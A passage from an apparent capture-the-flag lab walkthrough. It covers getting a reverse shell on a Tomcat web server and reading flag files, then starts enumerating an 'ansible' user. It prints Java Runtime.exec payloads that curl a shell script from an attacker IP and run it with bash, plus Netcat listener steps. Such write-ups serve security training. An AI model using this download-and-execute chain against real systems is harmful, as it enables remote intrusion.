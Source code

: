 - The first runs `curl` and downloads the script:
```java
Runtime.getRuntime().exec("curl <kali-ip-address>:8080/shell.sh -o /tmp/shell.sh");
```

- The second run has the machine run the script:
```java
Runtime.getRuntime().exec("bash /tmp/shell.sh");
```

18. After submitting the payload twice, you can go back to the terminal where you started the Netcat listener. You should have obtained a reverse shell inside the web server. 


19. As the first question states, you will find the first flag under `/opt/tomcat/flag1.txt`. Let's move to that directory and read the flag: 

```bash
cd /opt/tomcat/
cat flag1.txt
```

20. You successfully obtained the first flag. 

## Question 2

*Find a way to log into the `ansible` user. Second flag will be under `/home/ansible/flag2.txt`.*

1. Aside from the `flag1.txt` inside the `/opt/tomcat/` directory, there are other files worth reading. Let's see what other files we can find in this directory (Make sure you are still inside the obtained web server shell):

```bash
ls -la /opt/tomcat
```

You will notice a file called `notes.txt`.

2. Read the `notes.txt` file:

```bash
cat /opt/tomcat/notes.txt
```

Here is the content of the `notes.txt` file: 

```
FOR THE FUTURE:
fix yaml site it looks ugly
we need to try to start using ansible for easier deployments
ansible is installed and the user is added so that anyone that needs something deployed can do so
... this sounds not secure but I think it's our best option
```

3. Based on the note found, we know there is another user in the web server system. Let's verify this (Remember, we are still using the obtained web server shell): 

```bash
cd /home
ls
```
